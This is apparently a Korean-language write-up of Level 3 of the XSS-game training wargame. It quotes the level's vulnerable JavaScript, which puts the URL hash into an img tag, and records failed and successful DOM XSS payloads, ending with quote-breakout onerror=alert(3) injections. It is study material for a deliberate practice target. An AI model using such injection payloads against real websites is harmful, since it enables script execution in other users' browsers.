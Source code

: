 # Level3 : That sinking feeling...

- 몇가지 일반적인 js 함수들은 어떤 스크립트든 브라우져가 실행할 수 있도록 하는 'execution sinks'라고 불린다.
- 어디서도 페이로드를 입력할 수 없기 때문에 URL바를 활용하여 문제를 풀어야한다. 즉 숨겨진 구멍을 찾아서 문제를 해결한다

![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled.png?raw=true)

- 4 ❌

   ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%201.png?raw=true)

    결과 : img 태그의 src 속성으로  cloud + {input} +.jpg가 들어간다.
    ⇒ onerror 속성을 줄 수 있는지 확인한다.

- 4.jpg" onerror=alert(3); ❌

   ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%202.png?raw=true)


    결과 : 들어가지만 인식되지 않는다.

    ⇒ 태그를 닫아서 스크립트로 실행해본다.

- 4"><script>alert(3);</script> ❌

    ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%203.png?raw=true)

    결과 : 정확히 왜 안되는지 모르겠음 

    ⇒ 스크립트 코드를 자세히 확인해본다.

- num="><img src=4 onerror=alert(3);> ❌

    ```jsx
    function chooseTab(num) {
            // Dynamically load the appropriate image.
            var html = "Image " + parseInt(num) + "<br>";
            html += "<img src='/static/level3/cloud" + num + ".jpg' />";
            $('#tabContent').html(html);

            window.location.hash = num;

            // Select the current tab
            var tabs = document.querySelectorAll('.tab');
            for (var i = 0; i < tabs.length; i++) {
              if (tabs[i].id == "tab" + parseInt(num)) {
                tabs[i].className = "tab active";
                } else {
                tabs[i].className = "tab";
              }
            }

            // Tell parent we've changed the tab
            top.postMessage(self.location.toString(), "*");
          }

          window.onload = function() { 
            chooseTab(unescape(self.location.hash.substr(1)) || "1");
          }

          // Extra code so that we can communicate with the parent page
          window.addEventListener("message", function(event){
            if (event.source == parent) {
              chooseTab(unescape(self.location.hash.substr(1)));
            }
          }, false);
    ```

    스크립트를 확인해본 결과로 num이라는변수를 통해서 Dom XSS가 가능하다는 것을 알 수 있다.

    ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%204.png?raw=true)

    결과 : 이번에도 입력은 제대로 들어갔으나 인식되지 않는다.

    ⇒ 뭔가 빼 먹은 느낌이다. 자세히 확인해본다.

- num='"><img src=4 onerror=alert(3);> ✅

    ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%205.png?raw=true)
    ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%206.png?raw=true)
    
    결과 :  src 부분에 '를 통해서 닫아주면 제대로 입력되어 실행된다.

    ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%207.png?raw=true)

    ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%208.png?raw=true)

- num=' onerror=alert(3)> ✅

    ![](https://github.com/JissuPark/Wargame/blob/master/XSS-game/Level_3_That_sinking_feeling/Untitled%209.png?raw=true)

    '만 있으면 된다면 태그가 아닌 속성에 대해서도 가능하지 않을까 해서 시도해봤다.

    결과 : 가능하다.

---
